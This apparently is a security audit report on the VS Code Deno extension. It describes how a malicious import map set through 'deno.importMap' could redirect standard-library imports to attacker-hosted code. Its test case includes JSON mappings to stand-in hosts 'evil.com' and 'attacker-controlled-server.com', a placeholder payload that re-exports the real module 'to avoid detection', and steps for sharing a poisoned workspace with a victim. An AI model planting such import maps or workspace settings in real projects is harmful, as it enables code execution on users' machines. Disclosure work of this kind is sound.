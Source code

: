 # Vulnerability List for VSCode Deno Extension

## Remote Code Execution via Import Maps

### Description
The VS Code Deno extension allows users to specify a custom import map file through the `deno.importMap` setting. An attacker can create a malicious import map that redirects legitimate module specifiers to attacker-controlled code. When a user imports a module using the expected specifier, the Deno CLI would instead load and execute the attacker's code.

Steps to trigger this vulnerability:
1. Create a malicious import map file that redirects common imports to attacker-controlled code
2. Set the `deno.importMap` configuration to point to this malicious file
3. When the user imports a module that matches a redirected specifier, the malicious code would be executed instead of the legitimate module

### Impact
This vulnerability allows for remote code execution in the context of the user's Deno process. This could lead to:
- Exfiltration of sensitive data from the user's system
- Modification or deletion of files accessible by the user
- Further compromise of the user's system through execution of arbitrary code

### Vulnerability Rank
High

### Currently Implemented Mitigations
The extension does not have specific mitigations for this vulnerability. It passes the import map directly to the Deno CLI without validation of its contents. The only check is to ensure the setting is not empty:

```typescript
const importMap: string | undefined | null = config.get("importMap");
if (importMap?.trim()) {
  testArgs.push("--import-map", importMap.trim());
}
```

### Missing Mitigations
1. Validate the content of import map files to ensure they only redirect to trusted domains
2. Warn users when they're loading an import map from an untrusted source
3. Provide a mechanism to validate import maps against a whitelist of allowed redirect targets
4. Add a confirmation dialog before using a new or changed import map

### Preconditions
1. The attacker must be able to influence the `deno.importMap` setting in the user's VS Code workspace
2. The attacker must be able to host malicious code that will be loaded via the import map redirect
3. The user must import a module that matches a specifier redirected in the malicious import map

### Source Code Analysis
The vulnerability exists in how import maps are loaded and used in the extension:

1. In `client/src/commands.ts`, when setting up test execution, the extension reads the import map setting from configuration:
```typescript
if (!testArgs.includes("--import-map")) {
  const importMap: string | undefined | null = config.get("importMap");
  if (importMap?.trim()) {
    testArgs.push("--import-map", importMap.trim());
  }
}
```

2. Similarly, when initializing the Deno Language Server in `client/src/extension.ts`:
```typescript
initializationOptions: () => {
  const denoConfiguration = vscode.workspace.getConfiguration().get(
    EXTENSION_NS,
  ) as Record<string, unknown>;
  // ...
  return {
    ...denoConfiguration, // This passes the importMap setting to the language server
    // ...
  } as object;
}
```

3. The `importMap` setting is passed directly to the Deno CLI without any validation of its contents.

4. When Deno resolves imports, it uses the import map to redirect module specifiers, which could lead to loading and executing attacker-controlled code.

For example, if a malicious import map contains:
```json
{
  "imports": {
    "https://deno.land/std/": "https://evil.com/fake-std/"
  }
}
```

When a user imports `https://deno.land/std/http/server.ts`, Deno would instead load `https://evil.com/fake-std/http/server.ts`, which could contain malicious code.

### Security Test Case
To demonstrate this vulnerability:

1. Create a malicious import map file (malicious-map.json):
```json
{
  "imports": {
    "https://deno.land/std/": "https://attacker-controlled-server.com/fake-std/"
  }
}
```

2. Host malicious code at `https://attacker-controlled-server.com/fake-std/http/server.ts` that contains:
```typescript
console.log("Malicious code executed");
// Add malicious payload here
export * from "https://deno.land/std/http/server.ts"; // Re-export the real module to avoid detection
```

3. Create or modify a VS Code workspace configuration to use this import map:
```json
{
  "deno.enable": true,
  "deno.importMap": "./malicious-map.json"
}
```

4. Share this workspace with a victim (e.g., through a GitHub repository)

5. When the victim opens the workspace and writes code that imports from `https://deno.land/std/`, the malicious code from the attacker's server will be executed instead of the legitimate module.

This demonstrates how an attacker could leverage import maps to execute arbitrary code on a victim's system through a seemingly legitimate import statement.
